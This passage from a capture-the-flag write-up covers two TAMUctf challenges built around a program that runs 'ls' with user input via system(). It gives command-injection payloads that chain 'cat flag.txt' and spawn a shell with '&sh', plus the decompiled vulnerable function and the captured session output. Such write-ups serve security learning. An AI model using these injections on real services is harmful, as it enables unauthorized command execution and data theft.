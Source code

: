 The payload will looks like this: `-a && cat flag.txt`

~~~ 
nc pwn.tamuctf.com 4324
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
-a && cat flag.txt
Result of ls -a && cat flag.txt:
.
..
flag.txt
pwn4
gigem{5y573m_0v3rfl0w}
~~~ 

## Pwn 5

Find the binary here: [pwn5](/assets/sources/tamuctf/pwn5)


~~~ java
int __cdecl run_cmd(int a1)
{
  char v2; // [sp+6h] [bp-12h]@1

  snprintf(&v2, 7, "ls %s", a1);
  printf("Result of %s:\n", &v2);
  return system(&v2);
}
~~~ 
The program here is very similar to the pwn4 challenge. The only difference is that we have less space to write our payload (7 characters - len("ls ") == 4 characters).

Once again, I think that's not the intended way of exploitation. But let's work smarter not harder this time.

With 4 characters we have enough place to complete the command as follow : `ls &sh`

~~~ 
&sh
Result of ls &sh:
flag.txt
pwn5
cat .flag.txt

ls
flag.txt
pwn5
cat flag.txt
gigem{r37urn_0r13n73d_pr4c71c3}
~~~ 
